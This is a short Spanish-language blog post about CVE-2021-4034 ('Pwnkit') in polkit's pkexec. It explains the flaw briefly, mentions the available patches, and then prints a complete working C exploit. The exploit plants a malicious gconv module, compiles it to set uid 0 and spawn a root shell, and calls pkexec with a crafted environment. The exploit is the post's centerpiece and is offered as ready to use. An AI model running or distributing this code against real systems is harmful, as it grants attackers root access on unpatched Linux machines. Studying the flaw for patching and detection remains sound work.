 ```yaml
---
date: 2022-02-17 01:28:52
layout: post
title: "pwnkit"
subtitle:
description:
image: https://res.cloudinary.com/dle2tismx/image/upload/v1645061543/Blog/pwnkit/Pwnkit_kmhdfx.png
optimized_image: https://res.cloudinary.com/dle2tismx/image/upload/v1645061543/Blog/pwnkit/Pwnkit_kmhdfx.png
category: CVE
tags: CVE, vulnerabilidad, linux, polkit
author: AdrianPrietoVuosalmi
paginate: false
---
```




**CVE-2021-4034**, con este nombre se ha registrado la vulnerabilidad encontrada en *Polkit*, un componente para controlar sistemas con todos los privilegios presente en la mayoría de las distribuciones de Linux.
A la vulnerabilidad, se le ha apodado con el nombre de **Pwnkit**.

# Y...¿Cómo funciona?

Pues *Polkit*, como hemos dicho, es un componente para controlar privilegios en sistemas, este está en la mayoría de distros de linux. Este componente cuenta con un ejecutable llamado **pkexec**, una herramienta que permite a un usuario sin privilegios ejecutar comandos como si fuera otro usuario y con los máximos privilegios. Una de las cosas más impresionantes, es que esta vulnerabilidad lleva con nosotros desde el año *2009*.

La explotación de esta CVE permite a un usuario local sin privilegios obtener acceso root de manera muy rápida.

<br>
<br>
<br>
El error radica en que pkexec no manipula correctamente los parámetros de llamada y termina intentando ejecutar variables de entorno como comandos. Los investigadores recomiendan instalar los parches que publicaron los autores de Polkit. La mayoría de los distribuidores de Linux están trabajando en un parche que estiman saldrá a la brevedad. Ubuntu ya lanzó un parche que corrige la vulnerabilidad para las versiones ESM 14.04 y 16.04 y para las versiones 18.04, 20.04 y 21.10.

El código es muy sencillo, ya que con solo 30 lineas de código, podemos obtener privilegios de root.
<code>

    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    char *shell = 
        "#include <stdio.h>\n"
        "#include <stdlib.h>\n"
        "#include <unistd.h>\n\n"
        "void gconv() {}\n"
        "void gconv_init() {\n"
        "	setuid(0); setgid(0);\n"
        "	seteuid(0); setegid(0);\n"
        "	system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
        "	exit(0);\n"
        "}";
    int main(int argc, char *argv[]) {
        FILE *fp;
        system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
        system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
        fp = fopen("pwnkit/pwnkit.c", "w");
        fprintf(fp, "%s", shell);
        fclose(fp);
        system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
        char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
        execve("/usr/bin/pkexec", (char*[]){NULL}, env);
    }
</code>


Por suerte a día de hoy, ya hay una actualización de este problema de *polkit*.
